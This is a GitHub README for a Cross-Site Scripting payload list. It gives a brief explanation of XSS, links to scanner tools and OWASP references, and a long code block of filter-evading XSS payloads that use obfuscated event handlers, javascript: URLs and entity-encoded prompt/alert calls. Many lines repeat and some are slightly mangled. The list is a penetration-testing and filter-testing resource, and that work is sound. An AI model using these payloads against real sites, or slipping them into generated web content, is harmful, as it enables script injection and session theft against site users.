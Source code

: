 ### 🚀 Cross Site Scripting ( XSS ) Vulnerability Payload List 🚀

<img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/xss-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/xss-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/xss-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/xss-payload-list"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/xss-payload-list/1">

##### Overview : 

Cross-Site Scripting (XSS) attacks are a type of injection, in which malicious scripts are injected into otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application uses input from a user within the output it generates without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user’s browser has no way to know that the script should not be trusted, and will execute the script. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site. These scripts can even rewrite the content of the HTML page. For more details on the different types of XSS flaws, see: [Types of Cross-Site Scripting](https://www.owasp.org/index.php/Types_of_Cross-Site_Scripting).

#### XSS Vulneability Scanner Tool's :

* [XSStrike](https://github.com/UltimateHackers/XSStrike)

* [BruteXSS Terminal](https://github.com/shawarkhanethicalhacker/BruteXSS)

* [BruteXSS GUI](https://github.com/rajeshmajumdar/BruteXSS)

* [XSS Scanner Online](http://xss-scanner.com/)

* [XSSer](https://tools.kali.org/web-applications/xsser)

* [xsscrapy](https://github.com/DanMcInerney/xsscrapy)

#### XSS Payload List :

```
<!-- Project Name  : Cross Site Scripting ( XSS ) Vulnerability Payload List -->
<!--        Author : Ismail Tasdelen -->
<!--      Linkedin : https://www.linkedin.com/in/ismailtasdelen/ -->
<!--        GitHub : https://github.com/ismailtasdelen/ -->
<!--       Twitter : https://twitter.com/ismailtsdln -->
<!--        Medium : https://medium.com/@ismailtasdelen -->



<iframe %00 src="&Tab;javascript:prompt(1)&Tab;"%00>
<ScRipT 5-0*3+9/3=>prompt(2)</ScRipT giveanswerhere=?
</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(3)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(4)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(5) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(6)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(7)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(8)">
<var onmouseover="prompt(9)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(10)'">
<iframe/src \/\/onload = prompt(11)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(12)" onclick="alert(13)">x</button>
<iframe %00 src="&Tab;javascript:prompt(14)&Tab;"%00>
<ScRipT 5-0*3+9/3=>prompt(15)</ScRipT giveanswerhere=?
</script><img/*%00/src="worksinchrome&colon;prompt&#x28;1&#x29;"/%00*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(17)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(22)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(23) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(24)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(25)
<iframe style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(26)">
<var onmouseover="prompt(27)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(28)'">
<iframe/src \/\/onload = prompt(29)
<div style="xg-p:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(30)" onclick="alert(1)">x</button>
0\"autofocus/onfocus=alert(1)--><video/poster/onerror=prompt(2)>"-confirm(3)-"
0\"autofocus/onfocus=alert(1)--><video/poster/ error=prompt(2)>"-confirm(3)-"
<iframe  src="&Tab;javascript:prompt(444)&Tab;">
<ScRipT 5-0*3+9/3=>prompt(124)</ScRipT giveanswerhere=?
<form><a href="javascript:\u0061lert&#x28;1&#x29;">X</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(2421)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1555)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1251) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(4641)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(001)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(166)">
<var onmouseover="prompt(1125)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(25252512)'">
<iframe/src \/\/onload = prompt(111111)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(252525)" onclick="alert(1)">x</button>
<iframe  src="&Tab;javascript:prompt(1)&Tab;">
<ScRipT 5-0*3+9/3=>prompt(1)</ScRipT giveanswerhere=?
</script><img/*/src="worksinchrome&colon;prompt&#x28;1&#x29;"/*/onerror='eval(src)'>
<img/&#09;&#10;&#11; src=`~` onerror=prompt(1)>
<a&#32;href&#61;&#91;&#00;&#93;"&#00; onmouseover=prompt&#40;1&#41;&#47;&#47;">XYZ</a
<img/src=@&#32;&#13; onerror = prompt('&#49;')
<style/onload=prompt&#40;'&#88;&#83;&#83;'&#41;
<iframe srcdoc='&lt;body onload=prompt&lpar;1&rpar;&gt;'>
<img/src='http://i.imgur.com/P8mL8.jpg' onmouseover=&Tab;prompt(1)
/*iframe/src*/<iframe/src="<iframe/src=@"/onload=prompt(1) /*iframe/src*/>
<a/href="javascript:&#13; javascript:prompt(1)"><input type="X">
</plaintext\></|\><plaintext/onmouseover=prompt(1)
<iframe style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)">
<var onmouseover="prompt(1)">On Mouse Over</var>
<img src="/" =_=" title="onerror='prompt(1)'">
<iframe/src \/\/onload = prompt(1)
<div style="position:absolute;top:0;left:0;width:100%;height:100%" onmouseover="prompt(1)" onclick="alert(1)">x</button>



#### References :

###### Cross-site Scripting (XSS)

* 👉 https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)

###### XSS (Cross Site Scripting) Prevention Cheat Sheet

* 👉 https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet

###### DOM based XSS Prevention Cheat Sheet

* 👉 https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet

###### Testing for Reflected Cross site scripting (OTG-INPVAL-001)

* 👉 https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)

###### Testing for Stored Cross site scripting (OTG-INPVAL-002)

* 👉 https://www.owasp.org/index.php/Testing_for_Stored_Cross_site_scripting_(OTG-INPVAL-002)

###### Testing for DOM-based Cross site scripting (OTG-CLIENT-001)

* 👉 https://www.owasp.org/index.php/Testing_for_DOM-based_Cross_site_scripting_(OTG-CLIENT-001)

###### DOM Based XSS

* 👉 https://www.owasp.org/index.php/DOM_Based_XSS

###### Cross-Site Scripting (XSS) Cheat Sheet | Veracode

* 👉 https://www.veracode.com/security/xss

#### Recommended books :

* [XSS Attacks: Cross-site Scripting Exploits and Defense](https://books.google.com.tr/books/about/XSS_Attacks.html?id=dPhqDe0WHZ8C)

* [XSS Cheat Sheet](https://leanpub.com/xss)


### Cloning an Existing Repository ( Clone with HTTPS )
```
root@ismailtasdelen:~# git clone https://github.com/ismailtasdelen/xss-payload-list.git
```

### Cloning an Existing Repository ( Clone with SSH )
```
root@ismailtasdelen:~# git clone git@github.com:ismailtasdelen/xss-payload-list.git
```

### Published Website :

##### Kitploit - https://www.kitploit.com/2018/05/xss-payload-list-cross-site-scripting.html

### Donate!

Support the authors:

#### LiberaPay:

<noscript><a href="https://liberapay.com/ismailtasdelen/donate"><img alt="Donate using Liberapay" src="https://liberapay.com/assets/widgets/donate.svg"></a></noscript>
